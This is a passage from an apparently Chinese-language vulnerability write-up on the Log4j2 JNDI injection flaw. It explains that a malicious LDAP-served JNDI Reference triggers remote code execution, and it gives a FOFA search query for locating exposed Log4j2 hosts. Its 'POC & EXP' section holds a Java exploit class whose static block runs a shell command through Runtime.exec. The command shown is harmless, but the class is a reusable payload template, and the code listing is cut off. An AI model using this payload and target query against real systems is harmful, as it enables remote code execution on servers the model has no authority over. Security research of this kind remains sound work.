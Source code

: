 ![image-20220110024513630](../../../../images/post/image-20220110024513630.png)

最终加载由攻击者传入的LDAP服务端地址，然后返回一个恶意的 `JNDI Reference`对象，触发漏
洞，实现 RCE



## 0x05 漏洞指纹

fofa:

```
app="log4j2"
```





## 0x06 POC & EXP


!FILENAME exp.java
```java
public class Exploit {
    static {
        try {
        	String command = "touch /tmp/exploit.txt"; //
        	String[] commands = {"bash", "-c", command}; //
        	 
        	System.out.println("cmd : "+ commands[0]);
            int result = java.lang.Runtime.getRuntime().exec(commands).waitFor();
            System.out.println("result : "+ result);
        } catch (Exception e){
            e.printStackTrace();
        }
    }
    
    public static void main(String[] args) throws InterruptedException {
    	new Exploit();
    }
```